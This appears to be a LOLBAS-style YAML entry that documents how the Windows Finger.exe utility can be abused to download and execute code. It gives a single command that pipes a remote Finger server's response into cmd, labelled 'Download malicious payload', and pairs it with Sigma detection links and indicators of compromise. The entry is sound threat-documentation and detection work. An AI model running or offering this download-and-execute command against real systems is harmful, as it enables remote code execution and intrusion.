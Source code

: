 ```yaml
---
Name: Finger.exe
Description: Displays information about a user or users on a specified remote computer that is running the Finger service or daemon
Author: Ruben Revuelta
Created: 2021-08-30
Commands:
  - Command: finger user@example.host.com | more +2 | cmd
    Description: 'Downloads payload from remote Finger server. This example connects to "example.host.com" asking for user "user"; the result could contain malicious shellcode which is executed by the cmd process.'
    Usecase: Download malicious payload
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 8.1, Windows 10, Windows 11, Windows Server 2008, Windows Server 2008R2, Windows Server 2012, Windows Server 2012R2, Windows Server 2016, Windows Server 2019, Windows Server 2022
Full_Path:
  - Path: c:\windows\system32\finger.exe
  - Path: c:\windows\syswow64\finger.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_susp_finger_usage.yml
  - IOC: finger.exe should not be run on a normal workstation.
  - IOC: finger.exe connecting to external resources.
Resources:
  - Link: https://twitter.com/DissectMalware/status/997340270273409024
  - Link: https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/ff961508(v=ws.11)
Acknowledgement:
  - Person: Ruben Revuelta (MAPFRE CERT)
    Handle: '@rubn_RB'
  - Person: Jose A. Jimenez (MAPFRE CERT)
    Handle: '@Ocelotty6669'
  - Person: Malwrologist
    Handle: '@DissectMalware'
---
```

